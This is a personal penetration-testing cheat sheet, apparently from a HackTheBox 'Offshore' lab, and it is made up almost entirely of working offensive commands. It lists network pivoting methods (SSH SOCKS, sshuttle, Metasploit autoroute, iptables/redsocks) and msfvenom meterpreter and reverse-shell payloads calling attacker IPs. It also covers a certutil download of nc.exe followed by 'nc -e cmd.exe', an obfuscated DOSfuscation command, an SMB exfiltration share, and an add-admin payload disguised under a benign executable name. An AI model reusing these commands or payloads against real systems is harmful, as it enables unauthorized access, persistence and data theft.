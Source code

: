 # These are just tricks I picked up in offshore, will get exploded into different dirs at some point.

#### Pivoting

### method 1:

Add to proxychains.conf:
`socks4 127.0.0.1 1080`  
`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01`  
`proxychains nmap -sV 172.16.1.0-254`  

### Method 2:
*if I could nmap through this tunnel it would be the preffered method  

`sshuttle -vr root@NIX01 172.16.1.1/24 --ssh-cmd "ssh -i 10.10.110.123/root_ssh"`  

### Method 3:  
msf > use auxiliary/scanner/ssh/ssh_login_pubkey  
msf auxiliary(ssh_login_pubkey) > set RHOSTS 10.10.110.123    
msf auxiliary(ssh_login_pubkey) > set USERNAME root  
msf auxiliary(ssh_login_pubkey) > set KEY_PATH 10.10.110.123/root_ssh  
msf auxiliary(ssh_login_pubkey) > run  
ctrl+z
sessions -u 2
background
use auxiliary/server/socks_proxy
run


meterpreter > run post/multi/manage/autoroute  
CTRL+Z  
use auxiliary/scanner/portscan/tcp   
set RHOSTS 172.16.1.0/24  

### Method 4:  

`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01` *1080 is redsocks proxy default*  
`echo 1 > /proc/sys/net/ipv4/ip_forward`  
`iptables -t nat -A OUTPUT -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`iptables -t nat -A PREROUTING -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`/usr/sbin/redsocks -c /etc/redsocks.conf `

# Get a proper shell from a half/broken shell
`msfvenom -p cmd/unix/reverse_python lhost=69.201.13.55 lport=3344 R`
paste in your shell, profit
`python -c 'import pty; pty.spawn("/bin/sh")'`

## Start mult/handler:
`sudo msfconsole -x "use exploits/multi/handler; set lhost 10.10.14.14; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"`
`msfvenom -p windows/x64/meterpreter_reverse_http -f psh LHOST=10.10.14.14 LPORT=443 -o l.ps1`

## Start SMB for infil/exfil:  
`$ sudo impacket-smbserver -smb2support GUEST /home/kymb0/Desktop/backup/offshore/toolz`

## Reverse shell vbs (remember to run PS shellcode through https://github.com/danielbohannon/Invoke-obfuscation)
`Set objShell = CreateObject("Wscript.Shell")
objShell.Run("powershell.exe -noexit \\10.10.14.14\GUEST\l.ps1")`

## Reverse shell bat (remember to run through https://github.com/danielbohannon/Invoke-DOSfuscation)
cmd.exe /c
certutil.exe -urlcache -split -f http://10.10.14.14/nc.exe 
C:\ManageEngine_new\OpManager\logs\nc.exe
C:\ManageEngine_new\OpManager\logs\nc.exe -nv 10.10.14.14 443 -e cmd.exe

EG:  
```
cmd /V:ON/C"set Eiz8=d3uc 0v-olCeh\xt.saip1mEO:fn4gMwr/_&&for %n in (3,22,0,16,11,14,11,4,33,3,4,3,11,32,15,2,15,19,9,16,11,14,11,4,7,2,32,9,3,18,3,12,11,4,7,17,20,9,19,15,4,7,26,4,12,15,15,20,25,33,33,21,5,16,21,5,16,21,28,16,21,28,33,27,3,16,11,14,11,4,10,25,13,30,18,27,18,29,11,23,27,29,19,27,11,34,27,11,31,13,24,20,30,18,27,18,29,11,32,13,9,8,29,17,13,27,3,16,11,14,11,4,10,25,13,30,18,27,18,29,11,23,27,29,19,27,11,34,27,11,31,13,24,20,30,18,27,18,29,11,32,13,9,8,29,17,13,27,3,16,11,14,11,4,7,27,6,4,21,5,16,21,5,16,21,28,16,21,28,4,28,28,1,4,7,11,4,3,22,0,16,11,14,11,39)do set xoi=!xoi!!Eiz8:~%n,1!&&if %n gtr 38 call %xoi:~5%"
```
## Add user payload
`msfvenom -p windows/adduser USER=Admin PASS=Admin123 -f exe -o Lavasoft.WCAssistant.WinService.exe`
powershell -exec bypass
import-module .\PowerUp.ps1
invoke-allchecks
